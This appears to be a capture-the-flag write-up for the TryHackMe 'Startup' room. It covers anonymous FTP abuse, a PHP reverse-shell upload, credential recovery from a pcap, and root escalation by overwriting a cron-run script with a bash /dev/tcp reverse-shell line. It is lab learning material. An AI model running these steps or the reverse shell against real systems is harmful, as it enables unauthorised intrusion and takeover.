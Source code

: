 ### Nmap
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.17.24.189
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP

- got three files in ftp
```
┌─[glack@parrot]─[~/Desktop/THM/startup]
└──╼ $ls
important.jpg  notice.txt  test.log

```

- potential username in notice.txt
`but Maya is looking pretty sus.`




### HTTP

- ferox gives us path `/files`
- Here i can see that the ftp files are hosted and can be viewed from here, maybe we can also upload files on the ftp and maybe execute a php reverse shell
- namp showed that `/ftp` path in ftp is writable so we will upload the php revershell there
```
ftp> put revshell.php 
local: revshell.php remote: revshell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
```

- I am able to see the uploaded file on `http://10.10.154.192/files/ftp/`
- started a netcat listener and executed the file on web and i got a shell
```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data
```

### Priv Esc

- found one odd file at `/`
```
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

- Found another suspicious folder name `incidents`, it contains a `.pcap` file. I downlaoded it onto my system using `python3 -m http.server` 
and
```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/startup/_important.jpg.extracted]
└──╼ $wget http://10.10.154.192:8000/suspicious.pcapng
```

- It contained a TCP stream where a user as `www-data` was trying to access `sudo -l` command using the password
```
Sorry, try again.

[sudo] password for www-data: c4ntg3t3n0ughsp1c3
```
Maybe this is the `lennie` use who forgot he is using `www-data` acount and was trying `sudo -l` command because he has access to it

### Priv Esc - root

- Switching used to lennie with above password worked

```
lennie@startup:~$ cat user.txt
cat user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

- Triying standard priv esc vectors: sudo -l, suid bit files, bash_history, cronjobs but no luck
- In this path there is a file that is getting updated every minute, maybe this is a cronjob set by root, lets investigate it more
- here `planner.sh` is running every minute and in the file it is executing multiple command

```
lennie@startup:~/scripts$ cat planner.sh
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

- i checked and we are able to write `/etc/print.sh` file
- Changed the contents of `print.sh` to
```
lennie@startup:/etc$ echo "bash -i >& /dev/tcp/10.17.24.189/9992 0>&1" > print.sh
<bash -i >& /dev/tcp/10.17.24.189/9992 0>&1" > print.sh
```
- started a nc listener on 9992 and got a root shell
```
bash: no job control in this shell
root@startup:~# 

root@startup:~# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}


```